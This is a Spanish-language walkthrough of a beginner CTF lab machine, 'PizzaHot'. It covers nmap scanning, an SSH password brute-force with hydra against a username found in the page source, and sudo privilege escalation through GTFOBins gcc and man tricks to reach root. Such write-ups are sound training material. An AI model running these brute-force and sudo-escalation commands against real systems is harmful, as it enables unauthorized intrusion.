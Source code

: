 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# PizzaHot

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.41
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.41
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.41
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de pizzas.

<figure><img src="../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos el nombre de un usuario llamado **pizzapiña**.

<figure><img src="../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.41 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.41**

<figure><img src="../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **pizzapiña**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh pizzapiña@192.168.1.41
```

<figure><img src="../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **gcc** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/gcc/)para ver como podemos escalar privilegios.

```bash
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
```

Realizar tratamiento de la TTY. Como se nos muestra aquí: [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/). &#x20;

<figure><img src="../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

Ya estamos dentro del usuario **pizzasinpiña** por lo que realizamos otra vez el comando:

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/image (745).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **man** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/man/)para ver como podemos escalar privilegios.

```bash
sudo man man
```

Presionamos la tecla **ESC** para salir del modo de inserción en VIM y, a continuación, ejecutamos el siguiente comando para obtener una shell con privilegios elevados:

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
